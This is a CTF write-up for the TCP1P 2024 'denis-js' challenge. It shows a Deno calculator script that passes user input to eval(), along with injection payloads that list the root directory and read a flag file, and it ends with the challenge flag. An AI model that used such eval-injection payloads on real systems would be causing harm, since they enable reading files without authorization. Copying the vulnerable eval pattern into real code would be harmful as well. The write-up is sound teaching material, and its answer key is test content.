 ```yaml
---
title: "denis-js Writeup"
date: 2024-10-17 22:00
categories: [TCP1P CTF 2024, Misc]
tags: [tcp1p, misc, javascript, deno]
authors: stefan
description: A Simple JavaScript challenge that uses Deno and evals user input. Read current directory and then the flag which was generated with random characters.
---
```


## Challenge Description

Hello guys, Denis just make a simple calculator in js, can you try it?

## Solution

### Step 1: Analyze the Given Script

We are provided with the following TypeScript code:

```ts
const { stdout, stdin } = Deno;

async function promptUserInput(message: string): Promise<string> {
    stdout.write(new TextEncoder().encode(message));
    const buffer = new Uint8Array(300);
    const bytesRead = await stdin.read(buffer);
    const userInput = new TextDecoder().decode(buffer.subarray(0, bytesRead));
    return userInput.trim();
}

promptUserInput("Enter your name: ").then(name=>{
    if (/^[a-zA-Z]{1,}$/g.test(name)) {
        stdout.write(new TextEncoder().encode("\\(OwO)/"));
        return
    }
    stdout.write(new TextEncoder().encode(eval(name)))
});
```

We can see that the script reads user input and evaluates it using `eval()`. If the input is a valid name, it prints `\(OwO)/`. Otherwise, it evaluates the input using `eval()` and prints the result.

### Step 2: Listing current directory

To read the contents of the current directory, we can use the `Deno.readDirSync()` function. This function returns an iterator of directory entries. We can then map these entries to their names and print them.

```js
console.log(Array.from(Deno.readDirSync('/')).map(entry => entry.name).join('\n'));
```

### Step 3: Reading the Flag

The flag is stored in a file named `/flag-e2fd2c5183e5da1e454fbe0f24dd4889`, discovered on the previous step. We can read this file using `Deno.readFileSync()`.

```js
try {
Deno.readFileSync("/flag-e2fd2c5183e5da1e454fbe0f24dd4889")
}catch(err) {console.log(err)}
```

This script successfully read the flag file and printed its contents.

## Conclusion

To summarize the steps we took:

1. We analyzed the given script and identified that it reads user input and evaluates it using `eval()`.
2. We used `Deno.readDirSync()` to list the contents of the current directory.
3. We read the flag file using `Deno.readFileSync()`.

## Flag
`TCP1P{h0PE_nAgi_dIdNT_SE3_I_U53_h1S_PAY1Oad_t0_5OLVe_tHI5_cH4LIEn9E}`
